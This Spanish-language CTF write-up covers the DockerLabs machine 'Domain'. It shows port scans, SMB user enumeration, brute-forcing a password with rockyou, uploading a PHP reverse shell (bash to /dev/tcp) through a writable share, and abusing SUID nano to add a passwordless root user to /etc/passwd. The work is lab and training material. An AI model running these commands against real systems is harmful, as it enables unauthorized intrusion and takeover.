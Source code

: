 #MAQUINA #DOCKERLABS #MEDIO 
#ENUM4LINUX #CRACKMAPEXEC #SMBMAP 
#SMBCLIENT #ABUSO_SUBIDA_ARCHIVOS 

<hr>

# RECONOCIMIENTO

Vamos a resolver **Domain** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS -vvv -p- --min-rate 5000 -n -Pn 172.17.0.2
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-17 15:06 CET
Initiating ARP Ping Scan at 15:06
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 15:06, 0.06s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 15:06
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Discovered open port 445/tcp on 172.17.0.2
Discovered open port 139/tcp on 172.17.0.2
Completed SYN Stealth Scan at 15:06, 0.49s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2025-03-17 15:06:13 CET for 0s
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE      REASON
80/tcp  open  http         syn-ack ttl 64
139/tcp open  netbios-ssn  syn-ack ttl 64
445/tcp open  microsoft-ds syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.69 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)



```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto **80(HTTP)** y los puertos **139** y **445** abiertos.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p80,139,445 172.17.0.2                
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-17 15:06 CET
Nmap scan report for 172.17.0.2
Host is up (0.000015s latency).

PORT    STATE SERVICE     VERSION
80/tcp  open  http        Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: \xC2\xBFQu\xC3\xA9 es Samba?
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
MAC Address: 02:42:AC:11:00:02 (Unknown)

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-03-17T14:07:08
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.65 seconds




```

   ```bash

nmap --script="http-enum" 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-17 15:07 CET
Nmap scan report for 172.17.0.2
Host is up (0.0000030s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.44 seconds


enum4linux 172.17.0.2

 ========================================( Users on 172.17.0.2 )========================================
                                                                                                                                                                                          
index: 0x1 RID: 0x3e8 acb: 0x00000010 Account: james    Name: james     Desc:                                                                                                             
index: 0x2 RID: 0x3e9 acb: 0x00000010 Account: bob      Name: bob       Desc: 

user:[james] rid:[0x3e8]
user:[bob] rid:[0x3e9]

```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.

## SMB (445)

Con enum4linux sacamos dos usuarios -> **bob** y **james** . Vamos a ver su contra :
```bash
crackmapexec smb 172.17.0.2 -u bob -p /usr/share/wordlists/rockyou.txt
SMB         172.17.0.2      445    F57CDA103E88     [+] F57CDA103E88\bob:star 

```

Vamos a ver que podemos ver gracias a **smbmap**:

```bash
 smbmap -H 172.17.0.2 -u bob -p star                

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.5 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                          
                                                                                                    
[+] IP: 172.17.0.2:445  Name: 172.17.0.2                Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  READ ONLY       Printer Drivers
        html                                                    READ, WRITE     HTML Share
        IPC$                                                    NO ACCESS       IPC Service (f57cda103e88 server (Samba, Ubuntu))
[*] Closed 1 connections
```

# EXPLOTACION

Usamos **smbclient** para conectarnos a html:
```bash
smbclient //172.17.0.2/html -U bob                 
Password for [WORKGROUP\bob]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Mar 17 15:21:03 2025
  ..                                  D        0  Thu Apr 11 10:18:47 2024
  index.html                          N     1832  Thu Apr 11 10:21:43 2024

                229727556 blocks of size 1024. 190412032 blocks available
```

Si nos damos cuenta esto es la web y tenemos permisos de escritura.
Vamos a subir una reverse shell:

```bash
<?php

/**
* Plugin Name: test-plugin
* Plugin URI: https://www.your-site.com/
* Description: Test.
* Version: 0.1
* Author: your-name
* Author URI: https://www.your-site.com/
**/


	exec("/bin/bash -c 'bash -i > /dev/tcp/172.17.0.1/443 0>&1'");

?>
```

YA ESTAMOS COMO WWW-DATA.

# ESCALADA PRIVILEGIOS

Vemos si hay archivos que tienen permisos SUID:
   ```bash
www-data@f57cda103e88:/$ find / -perm -4000 2>/dev/null
/usr/bin/su
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/nano
/usr/lib/dbus-1.0/dbus-daemon-launch-helper


```

Vemos **nano** con permisos SUID, modificamos el `/etc/passwd` :

   ```bash
www-data@f57cda103e88:/$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
messagebus:x:101:102::/nonexistent:/usr/sbin/nologin
bob:x:1000:1000:bob,,,:/home/bob:/bin/bash
james:x:1001:1001:james,,,:/home/james:/bin/bash
newroot::0:0:newroot:/root:/bin/bash

www-data@f57cda103e88:/$ su newroot
root@f57cda103e88:/# whoami
root
root@f57cda103e88:/# 
```

**YA ESTAMOS COMO ROOT.**